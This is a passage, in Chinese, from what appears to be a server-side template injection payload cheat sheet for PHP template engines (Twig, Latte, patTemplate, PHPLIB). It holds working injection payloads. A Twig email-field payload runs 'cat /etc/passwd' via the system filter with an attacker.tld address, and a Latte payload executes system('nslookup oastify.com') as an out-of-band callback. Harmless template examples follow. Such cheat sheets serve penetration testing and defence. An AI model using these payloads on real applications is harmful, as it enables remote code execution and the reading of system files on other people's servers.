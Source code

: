 避免使用引号指定文件名的例子（通过OFFSET和LENGTH指定负载文件名）

```python
FILENAME{% set var = dump(_context)[OFFSET:LENGTH] %} {{ include(var) }}
```

通过FILTER_VALIDATE_EMAIL PHP传递电子邮件的例子。

```powershell
POST /subscribe?0=cat+/etc/passwd HTTP/1.1
email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@attacker.tld
```

---

## Latte

### Latte - 基本注入

```php
{var $X="POC"}{$X}
```

### Latte - 代码执行

```php
{php system('nslookup oastify.com')}
```

---

## patTemplate

> [patTemplate](https://github.com/wernerwa/pat-template) 是一个非编译的PHP模板引擎，使用XML标签将文档划分为不同的部分。

```xml
<patTemplate:tmpl name="page">
  这是主页面。
  <patTemplate:tmpl name="foo">
    它包含另一个模板。
  </patTemplate:tmpl>
  <patTemplate:tmpl name="hello">
    你好，{NAME}。<br/>
  </patTemplate:tmpl>
</patTemplate:tmpl>
```

---

## PHPlib 和 HTML_Template_PHPLIB

[HTML_Template_PHPLIB](https://github.com/pear/HTML_Template_PHPLIB) 与PHPlib相同，但移植到了Pear。

`authors.tpl`

```html
<html>
 <head><title>{PAGE_TITLE}</title></head>
 <body>
  <table>
   <caption>作者</caption>
   <thead>
    <tr><th>姓名</th><th>邮箱</th></tr>
   </thead>
   <tfoot>
    <tr><td colspan="2">{NUM_AUTHORS}</td></tr>
   </tfoot>
   <tbody>
<!-- BEGIN authorline -->
```